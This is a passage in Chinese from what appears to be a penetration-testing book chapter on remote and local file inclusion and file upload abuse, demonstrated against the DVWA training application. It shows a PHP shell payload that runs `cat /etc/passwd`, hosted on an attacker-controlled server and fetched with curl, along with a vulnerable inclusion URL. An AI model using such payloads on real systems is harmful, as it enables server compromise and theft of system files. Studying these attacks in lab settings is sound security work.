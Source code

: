 # 第五章 文件包含攻击

在前几章中，我们了解了如何设置我们的环境并熟悉我们的工具。我们甚至讨论了通过寻找低风险漏洞来攻击应用程序。秉承同样的精神，在本章中，我们将分析文件包含和文件上传攻击。虽然这些类型的攻击并不复杂，但它们仍然很常见。文件包含漏洞似乎已经存在很久了，而且看起来短时间内不会消失。**本地文件包含**（**LFI**）和**远程文件包含**（**RFI**）漏洞并不是唯一可以利用应用程序并使其受到攻击的方式。即使开发人员已经限制了可上传的服务器端可执行代码，文件上传漏洞仍然可以被滥用，正如我们稍后在本章中将看到的那样。仍然有相当多的应用程序容易受到 LFI、文件上传滥用，甚至有时是 RFI 的攻击。

本章将涵盖以下主题：

+   RFI

+   LFI

+   文件上传滥用

+   链接漏洞以实现代码执行

如果你曾在企业界工作过，肯定会发现这些问题发生的频率是多么的高。定制的内部应用程序通常是以截止日期为导向开发的，而不是考虑安全性。企业级 web 应用程序并不是唯一的问题：**物联网**（**IoT**）的噩梦才刚刚开始蔓延。大多数价格实惠的设备，比如 Wi-Fi 路由器或互联网连接的毛绒玩具，都设计得很差，一旦发布就再也不会更新。由于许多约束因素，包括财务限制和硬件局限性，设备的安全性非常基础，甚至根本没有。物联网设备是 2000 年代的 PHP 应用程序，而我们曾认为消失的漏洞正在卷土重来，带着强烈的报复性。

为了说明这些问题，我们将使用**Damn Vulnerable Web App**（**DVWA**）项目。这个特别的应用程序是为了展示在实际环境中常见的最流行的 web 漏洞而构建的。从命令注入到 XSS，所有这些都可以在三个难度级别（低、中、高）上进行测试。

### 注

DVWA 可以以多种格式下载，包括一个易于运行的 Live CD，网址为[`www.dvwa.co.uk/`](http://www.dvwa.co.uk/)。

为了简化，我们的 DVWA 实例将通过[`dvwa.app.internal`](http://dvwa.app.internal)进行访问。

# RFI

尽管在现代应用程序中不那么常见，但 RFI 漏洞仍然会时不时地出现。RFI 在早期的 Web 和 PHP 中非常流行。PHP 因允许开发者实现一些本质上危险的功能而臭名昭著。`include()` 和 `require()` 函数本质上允许从其他文件中包含代码，这些文件可以位于同一磁盘上，也可以通过网络加载。这使得 Web 应用程序更强大、更动态，但也付出了巨大的代价。正如你所想的那样，允许未经清理的用户数据传递给 `include()` 函数，可能导致应用程序或服务器被攻陷。

允许将远程文件包含到服务器端代码中的危险性是显而易见的。PHP 会下载远程文本并将其解释为代码。如果远程 URL 被攻击者控制，他们可以轻松地将 shell 代码传递给应用程序。

在以下示例中，RFI 漏洞可以通过一个简单的 `system()` 透传 shell 来利用。在攻击者控制的 `c2.spider.ml` 服务器上，提供了一个包含 shellcode 的纯文本文件：

```
root@kali:~# curl http://c2.spider.ml/test.txt
**<?php system('cat /etc/passwd'); ?>**
root@kali:~#
```

DVWA 应用程序在以下 URL 中存在 RFI 漏洞：

```
http://dvwa.app.internal/vulnerabilities/fi/
```

攻击者可以使用 `page` `GET` 参数指定一个任意页面进行包含，示例如下：

```
http://dvwa.app.internal/vulnerabilities/fi/?page=about.php
```

